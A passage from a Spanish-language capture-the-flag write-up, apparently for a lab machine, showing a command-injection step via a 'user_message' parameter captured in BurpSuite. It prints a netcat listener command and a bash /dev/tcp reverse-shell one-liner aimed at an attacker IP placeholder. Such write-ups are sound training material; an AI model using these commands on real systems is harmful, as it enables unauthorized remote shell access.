 Vamos a capturar esa petición con **BurpSuite** y la mandamos al **Repeater**:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura21.png">
</p>

Ahí vemos en la data el parámetro **user_message** que es el que ejecuta el comando después de la palabra clave **cmd:**.

No tenemos ninguna restricción para la ejecución de comandos, por lo que podemos mandarnos una **Reverse Shell** de una vez.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Usemos la siguiente **Reverse Shell**:
```bash
bash -c 'bash >& /dev/tcp/Tu_IP/443 0>&1'
```

**URL encodea** el comando y luego, manda la petición:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura22.png">
</p>
